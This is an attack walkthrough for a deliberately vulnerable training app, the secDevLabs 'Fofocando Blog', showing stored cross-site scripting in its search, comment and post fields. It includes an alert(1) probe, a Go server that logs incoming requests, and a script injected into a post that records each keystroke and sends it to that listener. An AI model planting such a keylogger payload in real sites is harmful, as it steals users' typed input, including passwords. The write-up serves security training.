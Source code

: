 # Attack Narrative - Fofocando Blog (XSS)

The main goal of this documentation is to describe how a malicious user could exploit a Cross-Site Scripting vulnerability intentionally installed on Fofocando Blog from secDevLabs.

If you don't know [secDevLabs](https://github.com/globocom/secDevLabs) or this [intended vulnerable web application](https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a7/fofocando) yet, you should check them before reading this narrative.

----

## Note: This attack narrative works best in Mozilla Firefox.

## 👀

After inspecting the application, it is possible to identify that some entries are not sanitized and can be  executed on web browser. It occurs on *search*, *comment* and *post* fields. The following images show this behavior when the text  **\<script>alert(1)\</script>** is used as an input on these fields.

Searching for a post:
   <img src="attack-1.png" align="center"/>
   <img src="attack-2.png" align="center"/>

Adding a new comment to a post:
   <img src="attack-3.png" align="center"/>
   <img src="attack-4.png" align="center"/>

Adding a new post:
   <img src="attack-5.png" align="center"/>
   <img src="attack-6.png" align="center"/>


The missing input validation allows a malicious user inserts some scripts that will be persisted in the server and can be executed on victims browsers every time they access the routes that contains these scripts.

Now we will demonstrate how to get all keyboard inputs from a user by persisting a malicious code in the server.

First, we create a simple API in golang that logs all received requests. The code is shown bellow:

   ```go
   package main

   import (
      "fmt"
      "github.com/labstack/echo"
   )

   func main() {
      e := echo.New()
      e.GET("/:k", handler)
      e.Logger.Fatal(e.Start(":1232"))
   }

   func handler(c echo.Context) error {
      fmt.Println(c.Request().RemoteAddr, c.Param("k"))
      return nil
   }
   ```

Now, we insert a new post through **/newgossip** route using the following code in text field:

```html
   <script>
   var k="";
   document.onkeypress=function() {
      k+=String.fromCharCode(window.event.keyCode);
      var i=new Image;
      i.src="http://localhost:1232/"+k;
   }
   </script>
```

This code implements a keylogger by capturing all keyboard inputs from user and send them to the API created before.

   <img src="attack-7.png" align="center"/>



When a victim access the post, the browser will interpret the text between the script tag as a code and will execute it secretly. This behavior is shown bellow.

In the first image, we are inserting some text in *comment* and *search* fields and the second image shows the server log containing all these inputs.


<img src="attack-8.png" align="center"/>

<img src="attack-9.png" align="center"/>
